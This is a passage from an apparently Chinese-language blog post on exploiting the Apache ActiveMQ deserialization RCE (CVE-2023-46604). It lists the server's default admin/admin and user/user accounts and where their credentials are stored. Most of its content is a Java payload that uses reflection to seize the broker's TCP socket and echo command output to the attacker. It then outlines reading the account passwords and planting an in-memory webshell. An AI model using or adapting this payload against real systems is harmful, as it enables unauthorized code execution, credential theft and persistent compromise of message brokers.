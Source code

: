 缺点：需要攻击者能够访问admin路由

而ActiveMQ的账号密码存储在`conf/jetty-realm.properties`文件中
![](https://i-blog.csdnimg.cn/direct/0fcbb35bd7f64fc29f2c844293326a15.png)

默认的两个账号：admin/admin、user/user

后续看到项目：[https://github.com/Arlenhiack/ActiveMQ-RCE-Exploit](https://github.com/Arlenhiack/ActiveMQ-RCE-Exploit)，支持了回显利用

使用的是TransportListener的onCommand处理命令
![](https://i-blog.csdnimg.cn/direct/0056bbf498a54cf1a4572d949541208d.png)

最后将结果输出在Socket中
```java
try {
    java.io.ByteArrayOutputStream baos = new java.io.ByteArrayOutputStream();
    java.io.DataOutput dataOutput = new java.io.DataOutputStream(baos);
    dataOutput.writeInt(0);
    dataOutput.writeByte(14);
    org.apache.activemq.openwire.BooleanStream bs = new org.apache.activemq.openwire.BooleanStream();
    bs.writeBoolean(true);
    bs.writeBoolean(true);
    bs.writeBoolean(true);
    bs.writeBoolean(false);
    bs.writeBoolean(true);
    bs.writeBoolean(false);
    bs.marshal(dataOutput);
    dataOutput.writeUTF("bb");
    dataOutput.writeUTF(result);

    Thread thread = Thread.currentThread();
    Class aClass = Class.forName("java.lang.Thread");
    java.lang.reflect.Field target = aClass.getDeclaredField("target");
    target.setAccessible(true);
    org.apache.activemq.transport.tcp.TcpTransport transport = (org.apache.activemq.transport.tcp.TcpTransport)target.get(thread);
    Class aClass1 = Class.forName("org.apache.activemq.transport.tcp.TcpTransport");
    java.lang.reflect.Field socketfield = aClass1.getDeclaredField("socket");
    socketfield.setAccessible(true);
    java.net.Socket socket = (java.net.Socket)socketfield.get(transport);
    java.io.OutputStream outputStream = socket.getOutputStream();
    outputStream.write(baos.toByteArray());
} catch (Exception e) {
}
```
实现回显
![](https://i-blog.csdnimg.cn/direct/ed20ee988d2b4d528bc1372a74b5b2fe.png)

那么思路就很清晰了，回显读取账号密码->打入内存马


参考：
[https://github.com/CTFCON/slides/blob/main/2024/Make%20ActiveMQ%20Attack%20Authoritative.pdf](https://github.com/CTFCON/slides/blob/main/2024/Make%20ActiveMQ%20Attack%20Authoritative.pdf)
[CVE-2023-46604 ActiveMQ RCE不出网利用](https://xz.aliyun.com/t/15536)